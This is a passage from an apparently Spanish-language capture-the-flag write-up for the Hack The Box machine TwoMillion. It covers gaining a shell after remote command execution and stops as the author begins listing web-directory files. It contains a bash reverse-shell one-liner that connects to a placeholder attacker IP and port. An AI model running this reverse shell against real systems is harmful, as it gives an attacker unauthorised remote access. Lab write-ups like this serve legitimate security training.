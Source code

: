 ![](/assets/img/HTB_TwoMillion/TM21.png)

Como podemos ver, ahora tenemos ejecucion remota de comandos (RCE), por lo que queda ganar acceso a la maquina.

No olvidemos la reverse shell basica en **bash**:

```bash
bash -c 'bash -i >&/dev/tcp/<TU IP>/<TU PUERTO> 0>&1'
```
![](/assets/img/HTB_TwoMillion/TM22.png)

Vemos que ganamos acceso como el usuario **"www-data"**, por lo que nos queda escalar privilegios al usuario y luego al root.

Si vemos, estamos dentro del directorio de la pagina web, listamos todos los archivos, vemos un listado interesante:
